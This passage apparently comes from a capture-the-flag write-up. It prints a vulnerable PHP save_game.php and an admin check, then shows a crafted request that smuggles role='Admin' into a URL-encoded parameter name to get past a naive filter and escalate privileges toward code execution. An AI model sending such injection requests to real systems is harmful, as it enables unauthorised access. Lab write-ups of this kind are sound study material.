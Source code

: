 The "game" is trivially exploitable since `CLICKS` and `LEVEL` are taken directly from `GET` parameters. Changing `ROLE` is a little trickier, since there's a rudimentary attempt to prevent manipulating that value.

```php
$ cat save_game.php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
        $args = [];
        foreach($_GET as $key=>$value) {
                if (strtolower($key) === 'role') {
                        // prevent malicious users to modify role
                        header('Location: /index.php?err=Malicious activity detected!');
                        die;
                }
                $args[$key] = $value;
        }
        save_profile($_SESSION['PLAYER'], $_GET);
        // update session info
        $_SESSION['CLICKS'] = $_GET['clicks'];
        $_SESSION['LEVEL'] = $_GET['level'];
        header('Location: /index.php?msg=Game has been saved!');

}
?>
```

Here's the `admin.php` check that determines whether the user is an administrator:

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}
?>
...
```

## Remote Code Execution

To achieve RCE, I need to elevate my privileges to `'Admin'` as specified by the ROLE column in the database.

There are (at least) two ways to do this. The most straightforward path is via injecting `role='Admin'` into the `GET` request, URL-encoding `=` as `%3d`:

```http
GET /save_game.php?role%3d'Admin',clicks=42&level=0 HTTP/1.1
...
```
